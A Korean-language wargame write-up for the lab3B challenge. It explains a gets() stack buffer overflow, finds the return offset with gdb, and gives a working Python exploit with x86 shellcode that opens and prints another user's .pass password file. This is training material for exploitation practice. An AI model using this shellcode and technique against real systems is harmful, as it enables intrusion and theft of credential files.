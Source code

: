 ## 1. 문제 확인
- ID : lab3B
- Target : /level/lab03/lab3B
- flag : /home/lab3A/.pass
```
	lab3B@warzone:/levels/lab03$ ./lab3B
	just give me some shellcode, k
	g4nzzi
	child is exiting...
	lab3B@warzone:/levels/lab03$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <signal.h>
	#include <assert.h>
	#include <stdlib.h>
	#include <stdio.h>
	#include <unistd.h>
	#include <sys/ptrace.h>
	#include <sys/reg.h>
	#include <sys/prctl.h>
	#include <wait.h>
	#include "utils.h"

	ENABLE_TIMEOUT(60)

	/* gcc -z execstack -fno-stack-protector -o lab3B lab3B.c */

	/* hint: write shellcode that opens and reads the .pass file.
		ptrace() is meant to deter you from using /bin/sh shellcode */

	int main()
	{
    	pid_t child = fork();
    	char buffer[128] = {0};
    	int syscall = 0;
    	int status = 0;

    	if(child == 0)
    	{
        	prctl(PR_SET_PDEATHSIG, SIGHUP);
        	ptrace(PTRACE_TRACEME, 0, NULL, NULL);

        	/* this is all you need to worry about */
        	puts("just give me some shellcode, k");
        	gets(buffer);
    	}
    	else
    	{
        	/* mini exec() sandbox, you can ignore this */
        	while(1)
        	{
            	wait(&status);
            	if (WIFEXITED(status) || WIFSIGNALED(status)){
                	puts("child is exiting...");
                	break;
            	}

            	/* grab the syscall # */
            	syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL);

            	/* filter out syscall 11, exec */
            	if(syscall == 11)
            	{
                	printf("no exec() for you\n");
                	kill(child, SIGKILL);
                	break;
            	}
        	}
    	}

    	return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
- 힌트를 보면 .pass 파일을 열고 읽는 쉘코드를 사용하라고 가이드
```c
	/* hint: write shellcode that opens and reads the .pass file.
	ptrace() is meant to deter you from using /bin/sh shellcode */
```
- 부모 프로세스는 ptrace() 함수를 통해 자식 프로세스의 exec 시스템콜은 실행하지 못하도록 필터링
```c
	...
    	/* grab the syscall # */
        syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL);
        
        /* filter out syscall 11, exec */
       	if(syscall == 11)
       	{
           	printf("no exec() for you\n");
           	kill(child, SIGKILL);
           	break;
       	}
    ...
```
- 자식 프로세스의 경우, buffer 사이즈가 128byte이지만 gets()함수에서 입력값 제한이 없으므로 overflow 발생
```c
        char buffer[128] = {0};
        ...
        puts("just give me some shellcode, k");
        gets(buffer);
        ...
```
- overflow 시 crash가 발생되는 위치를 확인하기 위해 임의값 128byte + 알파벳 패턴으로 입력 데이터를 만듬
```python
	data = ''
	for i in range(26):
        data += chr(i+0x41)*4

	print("a"*128 + data)
```
```
	lab3B@warzone:/levels/lab03$ python /tmp/lab3b.py > /tmp/lab3b_input
	lab3B@warzone:/levels/lab03$
```
- 입력 데이터를 사용하여 실행하면 overflow에 의해 리턴 주소에서 crash가 발생되고, 발생 위치는 'HHHH'(0x48484848)로 확인됨
```
	gdb-peda$ r < /tmp/lab3b_input
	Starting program: /levels/lab03/lab3B < /tmp/lab3b_input
	[New process 16010]
	just give me some shellcode, k
	Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
	Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.

	Program received signal SIGSEGV, Segmentation fault.
	...
        Stopped reason: SIGSEGV
	0x48484848 in ?? ()
	gdb-peda$
```
```
	|-------------------- 156 byte -------------------|
	[aaaaaaaa...aaaaaaaa][AAAABBBBCCCCDDDDEEEEFFFFGGGG][HHHH]
             buffer(128)               dummy(28)            ret
```
- crash 발생 시점의 buffer 변수의 주소는 0xbffff640 이므로, 해당 위치에 쉘코드를 입력하고 리턴주소로 사용하면 쉘코드 실행 가능
```
	[Switching to process 16083]
	[----------------------------------registers-----------------------------------]
	EAX: 0x0
	EBX: 0x45454545 ('EEEE')
	ECX: 0xfbad2088
	EDX: 0xb7fce8a4 --> 0x0
	ESI: 0x0
	EDI: 0x46464646 ('FFFF')
	EBP: 0x47474747 ('GGGG')
	ESP: 0xbffff6e0 ("IIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
	EIP: 0x48484848 ('HHHH')
	EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
        ...
```
```
	gdb-peda$ x/s 0xbffff640
	0xbffff640:     'a' <repeats 128 times>, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"...
```

<br/><br/>
## 3. Exploit
- "/home/lab3A/.pass" 파일을 읽는 쉘코드와 리턴주소까지 포함된 입력 데이터를 생성하는 코드를 작성
```python
	shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff" + "/home/lab3A/.pass\x00"

	print("\x90"*(128-len(shellcode)) + shellcode + "\x90"*28 + "\x40\xf6\xff\xbf")
```
```
	* 쉘코드 참조 : http://shell-storm.org/shellcode/files/shellcode-73.html
```
- 생성된 입력 데이터로 프로그램을 실행하면 "/home/lab3A/.pass" 파일 내용이 출력됨
  (※ GDB 환경에서의 리턴주소와 실제 프로그램 실행 시 리턴주소는 약간의 차이가 있음)
```
	lab3B@warzone:/levels/lab03$ python /tmp/lab3b.py > /tmp/lab3b_input
	lab3B@warzone:/levels/lab03$ ./lab3B < /tmp/lab3b_input
	just give me some shellcode, k
        [/home/lab3A/.pass 파일 내용 출력]
        child is exiting...
	lab3B@warzone:/levels/lab03$
```
